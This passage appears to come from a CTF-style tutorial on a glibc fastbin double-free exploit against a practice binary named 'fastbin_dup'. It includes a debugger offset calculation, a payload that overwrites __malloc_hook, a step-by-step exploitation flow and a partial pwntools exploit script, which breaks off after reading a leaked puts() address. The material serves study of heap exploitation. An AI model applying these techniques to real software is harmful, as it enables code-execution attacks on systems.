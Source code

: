 ```bash
pwndbg> p/x 0x7ffff7bb4b50 - 0x7ffff7bb4b3d  # __malloc_hook - fake_chunk_data
$1 = 0x13  # 19 bytes offset
```

It's simple now, we will craft our exploit like this - 

```python
# Padding to reach __malloc_hook + target address
payload = b'A' * 0x13 + p64(0xdeadbeef)
malloc(0x68, payload)  # Overwrites __malloc_hook
```

**Complete Exploitation Flow**

1. Allocate chunks A, B (0x68 size → 0x70 fastbin)
2. free(A) → free(B) → free(A)  # Create fastbin loop
3. Corrupt FD to point to fake chunk near `__malloc_hook`
4. Allocate to traverse: gets B, then A  
5. Allocate fake chunk and overwrite `__malloc_hook`
6. Trigger by calling `malloc()`


Final script looks like  this -

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwn import *

exe = context.binary = ELF(args.EXE or 'fastbin_dup')
libc = ELF(exe.libc.path, checksec=False) 

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

gdbscript = '''
tbreak main
continue
'''.format(**locals())

def malloc(size, data):
    global idx 
    idx += 1
    io.recvuntil(b'> ')
    io.sendline(b'1')
    io.recvuntil(b'size: ')
    io.sendline(f"{size}")
    io.recvuntil(b'data: ')
    io.sendline(data)
    return idx -1

def free(idx):
    io.recvuntil(b'> ')
    io.sendline(b'2')
    io.recvuntil(b'index: ')
    io.sendline(f"{idx}")
    
# -- Exploit goes here --

io = start()

io.recvuntil(b'puts() @ ')

```